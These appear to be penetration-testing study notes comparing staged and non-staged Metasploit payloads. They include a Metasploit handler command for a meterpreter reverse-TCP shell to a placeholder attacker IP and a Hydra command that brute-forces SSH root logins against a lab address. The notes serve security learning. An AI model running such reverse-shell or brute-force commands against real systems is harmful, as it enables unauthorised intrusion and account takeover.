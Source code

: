 #### How it works:

1. **Single Delivery**: The entire payload is sent to the target system in one go.
2. **Execution**: The payload is executed immediately upon delivery.

#### Advantages:

- **Less Network Traffic**: Since the payload is delivered in one piece, there is less network traffic, reducing the chance of detection.
- **Simplicity**: The process is straightforward, as there is no need for additional stages or communications.

#### Disadvantages:

- **Larger Initial Payload**: The payload might be larger, which could increase the risk of detection and might be subject to size restrictions.
- **Less Flexibility**: Non-staged payloads are less adaptable compared to staged payloads.

#### Example:

In Metasploit, a non-staged payload might be `windows/meterpreter_reverse_tcp`.

bash

Copy code

`use exploit/multi/handler set PAYLOAD windows/meterpreter_reverse_tcp set LHOST <attacker-ip> set LPORT 4444 run`

### Key Differences

- **Structure**:
    - **Staged Payload**: Split into a stager and a stage.
    - **Non-Staged Payload**: Delivered and executed as a single piece.
- **Network Traffic**:
    - **Staged Payload**: Generates more network traffic due to the separate delivery of the stager and stage.
    - **Non-Staged Payload**: Generates less network traffic as the entire payload is delivered at once.
- **Size**:
    - **Staged Payload**: The initial payload (stager) is smaller.
    - **Non-Staged Payload**: The entire payload is larger and delivered at once.
- **Flexibility**:
    - **Staged Payload**: More flexible and adaptable during exploitation.
    - **Non-Staged Payload**: Less flexible but simpler in execution.

### Conclusion

Both staged and non-staged payloads have their own advantages and disadvantages. The choice between them depends on the specific requirements of the penetration test, the network environment, and the security measures in place. Understanding these differences allows penetration testers to choose the most appropriate payload for their objectives.


# **brute forcing** 
**using *hydra*** 
`hydra -l root -P usr/share/wordlist/metasploit/....... ssh://10.0.2.15 -t 4 -v`
or using Metasploit 

